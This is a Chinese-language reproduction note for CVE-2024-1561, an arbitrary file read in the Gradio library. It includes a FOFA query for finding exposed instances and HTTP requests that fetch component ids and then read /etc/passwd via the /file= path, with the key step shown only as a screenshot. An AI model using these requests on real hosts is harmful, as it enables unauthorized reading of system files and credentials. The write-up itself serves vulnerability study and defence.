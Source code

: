 # python Gradio插件存在任意文件读取漏洞(CVE-2024-1561)

# 一、漏洞简介
Gradio是一个开源的Python库，用于创建机器学习模型的交互式界面。它使得展示和测试模型变得简单快捷，无需深入了解复杂的前端技术。广泛应用于数据科学、教育、研究和软件开发领域，尤其适合于快速原型设计、模型验证、演示和教学。Gradio的/component_server接口不正确地允许使用攻击者控制的参数调用`Component`类的任何方法。具体来说，通过利用`Block`类的`move_resource_to_block_cache()`方法，攻击者可以将文件系统上的任何文件复制到临时目录，然后检索它。该漏洞允许未经授权的本地文件读取访问，尤其是当应用程序通过`launch(share=True)`暴露到互联网时，从而允许远程攻击者读取主机机器上的文件。此外，托管在`huggingface.co`上的gradio应用也受到影响，可能导致敏感信息，如存储在环境变量中的API密钥和凭据的泄露。

# 二、影响版本
+ Gradio

# 三、资产测绘
+ fofa`body="__gradio_mode__"`

![1716302666272-e9be2ee3-0f10-483a-a8fa-f8f167765e0b.png](./img/nhqHGDrOPHKgDp7N/1716302666272-e9be2ee3-0f10-483a-a8fa-f8f167765e0b-158980.png)

# 四、漏洞复现
首席获取components的id值

```plain
GET /config HTTP/1.1
Host: 101.35.228.120
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
```

![1716302792557-a7a11abb-0428-4661-85d9-7ce32a833f24.png](./img/nhqHGDrOPHKgDp7N/1716302792557-a7a11abb-0428-4661-85d9-7ce32a833f24-678576.png)

携带id值将/etc/passwd文件的内容写入临时文件

![1716302852140-3adae7b1-e986-40c4-afd1-3cbd5ff25060.png](./img/nhqHGDrOPHKgDp7N/1716302852140-3adae7b1-e986-40c4-afd1-3cbd5ff25060-659510.png)

读取文件

```plain
GET /file=/tmp/gradio/4985ef451ed671433e69560a0edc00761e44efab/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.1.3 Safari/605.1.1514.1.3 Ddg/14.1.3
Connection: close
Accept-Encoding: gzip
```

![1716302894039-110b1ea7-9212-458a-9672-2ea39a58508a.png](./img/nhqHGDrOPHKgDp7N/1716302894039-110b1ea7-9212-458a-9672-2ea39a58508a-950250.png)



> 更新: 2024-09-05 23:27:24  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/sh67wp3qcrzx75qv>